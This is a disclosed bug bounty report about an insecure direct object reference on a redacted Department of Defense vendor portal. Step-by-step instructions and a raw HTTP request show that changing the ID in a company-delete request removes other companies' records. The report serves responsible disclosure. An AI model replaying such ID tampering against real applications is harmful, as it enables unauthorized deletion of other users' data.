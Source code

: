 # IDOR on ███████ [HtUS]

## Report Details
- **Report ID**: 1627974
- **URL**: https://hackerone.com/reports/1627974
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-07-06T14:01:51.538Z
- **Disclosed**: 2022-11-18T18:36:03.621Z

## Reporter
- **Username**: nightm4re
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hello,
I have found an endpoint in ███ is vulnerable to IDOR which leads an attacker to brute-force an delete Companies

Steps to reproduce:

1. Nevgaite to https://███████/████/Reception/Vendor and create account
2. Once you created an account go to https://████/████/Vendor/Companies
3. Regsiter a new company and fill up the form
4. Go back to the coampy page
5. you will see delete button click on it and make sure your burp suite is on in the background
6. You will see the following request
7. Change the last ID to any id and forward the request

GET /██████/Vendor/Companies/Delete/71712 HTTP/1.1
Host: ██████████
Cookie: .AspNetCore.Antiforgery.wZhPOrJ1UhI=CfDJ8MjAkyuL42ZLvTS4QqhXIjcDfSsIAOTqNw3dZo7qYbVzZnw8UQEQCf3hh23v5DGfiTHk6RPBj78d2yWeZSN20treUhl3TWr-1iRZOXSdLEIcB0Q-4g__L40JFV9QUfNFSjfOBJge4W9QDQLC73_QuBU; .AspNetCore.Mvc.CookieTempDataProvider=CfDJ8MjAkyuL42ZLvTS4QqhXIjdAocqm48zYIvTJWNKWyoyFlusz3T2dhYqL1474uivQT9BFajY3Fkt507twZdX1k8QgApfwX3BSGw20PBIsVj7SS-6jl0wmOPaE6t_UKsrjYZKu8ky-IDSml2MEvCT4ep9Sti2DJ1eXue7V3RbxhUrZuxraUlMmB4LHYy_dUbCB8N4pmmQW4IY5MXvpK3_3wb4; .AspNetAuth=CfDJ8MjAkyuL42ZLvTS4QqhXIje31_l_350wZ7JvbGgNdyQqyIfdUILQ7jE5dbdP8eKXY7FR06RxRWeUb548XmS03ZuIqH8ZshikVOdOm0rPGh2i1vSTIdxijSIuV6VbsE6pAK4ULe46jo0L9L5C2QL2gMnNbN7SWDcyhMylwHW4ZQirWTu3jTAqZcMrsMPReO1EAO4ey6cwHHgzO8Z1otRJrSCRsr-4ncOirQQyfDiulSAFm3srtWPcSRsy4tmv_7J2_Ra8vTyRZ146PvgCjXO0CaevtF6QSW41Gh5AycJ9GO4uoVkgIopdHHuXk8WMZx-lzA; ASP.NET_SessionId=pklok0cmwkw155fz2qihhuof; CSRF-TOKEN=CfDJ8MjAkyuL42ZLvTS4QqhXIjc4RkI6tGtAePHe0ChJXV8mHztZTjfBLYSr4Rosah2ZcjzZJHzPkJW-mgQadn6kRMdPYmvc6dS_eLCcg2Ds2sQxg4spttICndggqjzv0fdWJOotEnIJtHqSWUE8knNuMK4; .AspNetCore.Session=CfDJ8MjAkyuL42ZLvTS4QqhXIjc4G3A8xAtZ%2BpqcbCXYKgoRuTDdMZ2gEwK9U21D8bYrwu05ry0HgQI4szG5LJTcggrXqQyNsecWIUhCpfpq2Xo3b%2BAlMj9IhrPxE0yJ3VuYHcftrXnDA%2F3asi6SHe1sZbFuLX1Nbz6Tvmchqu30vE1b
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://████████/██████████/Vendor/Companies
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

## Impact

An attacker can delete all companies

## Attachments
No attachments
